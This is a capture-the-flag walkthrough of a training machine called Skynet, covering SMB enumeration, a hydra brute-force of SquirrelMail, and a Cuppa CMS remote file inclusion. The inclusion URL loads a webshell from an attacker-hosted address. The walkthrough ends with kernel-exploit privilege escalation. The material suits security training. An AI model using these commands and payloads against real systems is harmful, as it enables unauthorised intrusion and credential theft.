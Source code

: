 # Skynet

The first thing that we should do is network scanning through nmap:

```bash
nmap -sV <target_ip>
```

![Alt text](../Screenshots/Skynet/nmap.png)

Now we can see that there are samba shares. Then I ran enumeration tool for linux target machine:

```bash
enum4linux -a <target_ip>
```

Moreover there is a listed user shown in the following image named `milesdyson`:

![Alt text](../Screenshots/Skynet/users.png)

It gave me following share:

![Alt text](../Screenshots/Skynet/shares.png)

Simaltaneously, I started directory enumeration and found the following results:

![Alt text](../Screenshots/Skynet/dir_enum.png)

And there is an interesting directory seems `squirrelmail`. I visited it and found:

![Alt text](../Screenshots/Skynet/squirrelmail_login.png)

We can get some useful information through shares so I tried to get into them using the command:

```bash
smbclient //<target_ip>/anonymous -N
```

Now go into logs directory where you will find 3 log files:

![Alt text](../Screenshots/Skynet/logs.png)
```bash
get log1.txt
```
Using above command you can transfer there log files into your attacking machine on the path from where you ran the above smbClient command. Inside `log1.txt` there are many passwords. Useranme we already know, now we should try to crack the password:
```bash
hydra -l milesdyson -P log1.txt <target_ip> http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password" \
-V -t 16
```
We found the password:

![Alt text](../Screenshots/Skynet/password_found_hydra.png)

Now we have username and password, so let's try it on `squirrelmail` directory. Yes!! we logged in successfully as you can see:

![Alt text](../Screenshots/Skynet/squirrelmail_login_home.png)

Now click on the first mail having subject **Samba password reset** and you will find the password:

![Alt text](../Screenshots/Skynet/password.png)

Subject shows that this is the password of samba shares. So let's try this password:

```bash
smbclient //<target_ip>/milesdyson -U 'WORKGROUP\\milesdyson%)s{A&2Z=F^n_E.B`'
```

Now go to `notes` directory and there you will find `important.txt` file. Download it using `get` command. Now read this file and you will find something like that:

![Alt text](../Screenshots/Skynet/hidden_directory.png)

I suspected that this can be a hidden directory written in the 1st line. I tried and was right, but found nothing interested there. But then I again did the directory enumeration:

![Alt text](../Screenshots/Skynet/hidden_dir_enum.png)

Interesting directory found named `administrator`. I went to it and found there is cuppa cms is running.

Now the next question was helpful which is asking about remote file inclusion. I google about remote file inclusion in cuppa cms and found an exploit in [exploit-db](https://www.exploit-db.com/exploits/25971).


By reading the exploit I understood if I host a webshell in my attacker machine, host it via python server then i can exploit the remote file inclusion vulnerability in the target system using the following link:

```
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:<attacker_port>/shell.txt&cmd=ls
```

It showed me the result of ls command: Now I ran some commands to find the directories and all that stuff. Then I set cmd in url as `cat /home/milesdyson/user.txt` and it gave me the flag:

![Alt text](../Screenshots/Skynet/user_flag.png)

Now we need to escalate our privileges. First thing I done is I ran the linpeas on the target machine and found come known cve's. The first I tried was:

![Alt text](../Screenshots/Skynet/exploit_name.png)

I Downloaded it's exploit from exploit-db, transferred it to the target machine. Compiled it and ran it, Boom! we go the root shell:

![Alt text](../Screenshots/Skynet/root_shell.png)

Now, you can read the root flag from `/root/root.txt`.
